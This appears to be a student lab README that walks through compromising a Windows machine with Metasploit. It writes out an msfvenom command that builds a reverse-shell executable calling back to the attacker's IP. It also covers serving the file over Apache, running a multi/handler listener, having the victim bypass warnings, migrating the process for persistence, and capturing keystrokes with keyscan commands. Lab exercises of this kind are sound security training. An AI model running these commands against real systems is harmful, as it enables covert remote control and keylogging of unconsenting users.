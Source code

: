 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![image](https://github.com/Hariharan-061102/Compromising-windows-using-Metasploit/assets/93427270/a747cd77-3129-4c70-b04f-bef68aeb7fd8)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/Hariharan-061102/Compromising-windows-using-Metasploit/assets/93427270/c86e3801-58d7-4dea-810d-f92152f0f0fe)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/Hariharan-061102/Compromising-windows-using-Metasploit/assets/93427270/724ef163-3e79-4a63-9eb5-32c1421c7019)

Start apache server sudo systemctl apache2 start

![image](https://github.com/Hariharan-061102/Compromising-windows-using-Metasploit/assets/93427270/4e39034a-910b-4b59-870d-da07a665443b)

Check the status of apache2

![image](https://github.com/Hariharan-061102/Compromising-windows-using-Metasploit/assets/93427270/6ba32ffc-8377-498e-8a24-910c2537f897)

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/Hariharan-061102/Compromising-windows-using-Metasploit/assets/93427270/151c5d1d-3478-43f9-beb3-a7e290681123)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Hariharan-061102/Compromising-windows-using-Metasploit/assets/93427270/5f5b37be-1fea-4e45-b142-4c927d2306de)

Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

![image](https://github.com/Hariharan-061102/Compromising-windows-using-Metasploit/assets/93427270/586d2cab-ad6f-4135-b92c-72e2d7b95225)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Hariharan-061102/Compromising-windows-using-Metasploit/assets/93427270/726bcdbe-f11e-4518-8b50-f257cc1a73e5)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Hariharan-061102/Compromising-windows-using-Metasploit/assets/93427270/2424fae4-0a9f-40e3-8055-ac1d6b421911)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Hariharan-061102/Compromising-windows-using-Metasploit/assets/93427270/0bdaef8b-97ef-4ff1-bbfd-14df920d0ee9)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
